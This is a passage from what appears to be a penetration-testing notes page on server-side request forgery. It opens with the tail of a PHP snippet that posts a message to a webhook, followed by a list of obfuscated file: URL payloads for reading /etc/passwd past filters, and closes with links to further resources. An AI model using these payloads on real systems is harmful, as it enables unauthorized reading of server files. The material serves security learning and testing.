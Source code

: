 ````php
$message = array("content" => "$log_message"); // the message you want to send

$ch = curl_init($webhook_url);
curl_setopt($ch, CURLOPT_HTTPHEADER, array('Content-type: application/json'));
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, json_encode($message));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_exec($ch);
curl_close($ch);

?>

````

## SSRF Bypasses

{% embed url="https://rodoassis.medium.com/on-ssrf-server-side-request-forgery-or-simple-stuff-rodolfo-found-part-i-4edf7ee75389" %}

```
file:/etc/passwd?/
file:/etc/passwd%3F/
file:/etc%252Fpasswd/
file:/etc%252Fpasswd%3F/
file:///etc/?/../passwd
file:///etc/%3F/../passwd
file:${br}/et${u}c/pas${te}swd?/
file:$(br)/et$(u)c/pas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd?/
file:$(br)/et$(u)c%252Fpas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd%3F/
file:$(br)/et$(u)c%252Fpas$(te)swd%3F/
file:///etc/passwd?/../passwd
```

## Resources

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) [https://highon.coffee/blog/ssrf-cheat-sheet/](https://highon.coffee/blog/ssrf-cheat-sheet/) [URL Format Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) [SSRF vulnerabilities and where to find them - Detectify Labs](https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/?fbclid=IwAR0xC3ymb4ufRUGRDOZWr7lleeatiJj_vH8dod9-84jKt0PN1z7evtHFccA)

#### Youtube

* https://www.youtube.com/watch?v=U0bPPw6uPgY\&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE\&t=751s
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k
* [A New Era of SSRF](https://www.youtube.com/watch?v=R9pJ2YCXoJQ) by [Orange Tsai](https://blog.orange.tw/)
